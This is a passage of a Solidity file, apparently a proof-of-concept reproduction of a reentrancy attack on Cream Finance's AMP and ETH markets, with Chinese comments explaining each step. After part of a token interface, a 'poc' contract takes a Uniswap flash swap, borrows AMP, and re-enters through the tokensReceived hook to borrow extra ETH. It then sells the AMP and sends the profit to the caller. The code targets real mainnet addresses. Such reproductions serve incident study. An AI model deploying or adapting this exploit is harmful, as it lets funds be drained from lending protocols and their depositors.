    function decimals() external pure returns (uint8);

    function decreaseAllowance(address _spender, uint256 _subtractedValue)
        external
        returns (bool);

    function decreaseAllowanceByPartition(
        bytes32 _partition,
        address _spender,
        uint256 _subtractedValue
    ) external returns (bool);

    function defaultPartition() external view returns (bytes32);

    function granularity() external pure returns (uint256);

    function increaseAllowance(address _spender, uint256 _addedValue)
        external
        returns (bool);

    function increaseAllowanceByPartition(
        bytes32 _partition,
        address _spender,
        uint256 _addedValue
    ) external returns (bool);

    function isCollateralManager(address _collateralManager)
        external
        view
        returns (bool);

    function isOperator(address _operator, address _tokenHolder)
        external
        view
        returns (bool);

    function isOperatorForCollateralManager(
        bytes32 _partition,
        address _operator,
        address _collateralManager
    ) external view returns (bool);

    function isOperatorForPartition(
        bytes32 _partition,
        address _operator,
        address _tokenHolder
    ) external view returns (bool);

    function isPartitionStrategy(bytes4 _prefix) external view returns (bool);

    function name() external view returns (string memory);

    function owner() external view returns (address);

    function partitionStrategies(uint256) external view returns (bytes4);

    function partitionsOf(address _tokenHolder)
        external
        view
        returns (bytes32[] memory);

    function registerCollateralManager() external;

    function revokeOperator(address _operator) external;

    function revokeOperatorByPartition(bytes32 _partition, address _operator)
        external;

    function setPartitionStrategy(bytes4 _prefix, address _implementation)
        external;

    function swap(address _from) external;

    function swapToken() external view returns (address);

    function swapTokenGraveyard() external view returns (address);

    function symbol() external view returns (string memory);

    function totalPartitions() external view returns (bytes32[] memory);

    function totalSupply() external view returns (uint256);

    function totalSupplyByPartition(bytes32) external view returns (uint256);

    function transfer(address _to, uint256 _value) external returns (bool);

    function transferByPartition(
        bytes32 _partition,
        address _from,
        address _to,
        uint256 _value,
        bytes memory _data,
        bytes memory _operatorData
    ) external returns (bytes32);

    function transferFrom(
        address _from,
        address _to,
        uint256 _value
    ) external returns (bool);
}

contract poc {

    address constant  AMPToken_Address = 0xfF20817765cB7f73d4bde2e66e067E58D11095C2;
    
    address constant  registry = 0x1820a4B7618BdE71Dce8cdc73aAB6C95905faD24;
    
    //keccak256("AmpTokensRecipient")
    bytes32 constant  TOKENS_RECIPIENT_INTERFACE_HASH = 0xfa352d6368bbc643bcf9d528ffaba5dd3e826137bc42f935045c6c227bd4c72a;
    
    address constant uin_WTH9_Pair_Address = 0xd3d2E2692501A5c9Ca623199D38826e513033a17;
    
    address constant WTH9_AMP_Pair_Address = 0x08650bb9dc722C9c8C62E79C2BAfA2d3fc5B3293;
    
    address constant WETH9_Address = 0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2;
    
    address constant crETH_Address = 0xD06527D5e56A3495252A528C4987003b712860eE;
    
    address constant crAMP_Address = 0x2Db6c82CE72C8d7D770ba1b5F5Ed0b6E075066d6;
    
    address constant UniswapV2Router02_address = 0x7a250d5630B4cF539739dF2C5dAcb4c659F2488D;
    
    address public wallet;
    
    ////这里必须是一个动态数组，根据uniswap的设计，该数组长度可能为2也可能为3
    address[]  path = [0xfF20817765cB7f73d4bde2e66e067E58D11095C2,0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2];
    
    
    function attack() public {
        
        //注册接口
        IERC1820Registry(registry).setInterfaceImplementer(address(this), TOKENS_RECIPIENT_INTERFACE_HASH, address(this));
        
        wallet = msg.sender;
        //触发FlashSwap
        Uni_Pair_V2(uin_WTH9_Pair_Address).swap(0, 500*1e18, address(this), "0x00");
        
    }
    
    function uniswapV2Call(address sender, uint amount0, uint amount1, bytes calldata data) external{
    
        //把500个WETH转为500个ETH
        WETH9(WETH9_Address).withdraw(500*1e18);
        
        //把500个ETH质押进Cream
        crETH(crETH_Address).mint{value:500*1e18}();
        
        //这里很奇怪要先借小额的ETH,才能借出大量的AMP,暂时不清楚原因
        crETH(crETH_Address).borrow(1*1e18);
        
        //攻击者调用了这个函数,所以我也跟着调
        crAMP(crAMP_Address).accrueInterest();
        
        //借大量AMP
        crAMP(crAMP_Address).borrow(19480000000000000000000000);
        
        //把所有ETH转为WETH
        WETH9(WETH9_Address).deposit{value:address(this).balance,gas:40000}();
        
        //Approve给RouterV2大量AMP,准备卖掉
        AMP(AMPToken_Address).approve(UniswapV2Router02_address,19480000000000000000000000000);
        
        //卖掉AMP
        Uni_Router_V2(UniswapV2Router02_address).swapExactTokensForTokens(19480000000000000000000000,1,path,address(this),block.timestamp);
        
        //归还FlashSwap
        WETH9(WETH9_Address).transfer(uin_WTH9_Pair_Address,502*1e18);
        
        //剩余WETH转回给测试账户
        WETH9(WETH9_Address).transfer(wallet,WETH9(WETH9_Address).balanceOf(address(this)));
        
    }
    
    function tokensReceived(
        bytes4 functionSig,
        bytes32 partition,
        address operator,
        address from,
        address to,
        uint256 value,
        bytes calldata data,
        bytes calldata operatorData
    ) external  {
        // 当该攻击合约收到AMP的时候,触发钩子函数，通过重入借出ETH
        crETH(crETH_Address).borrow(354*1e18);
        
    }
    
    receive() external payable {
       
    }
}

```
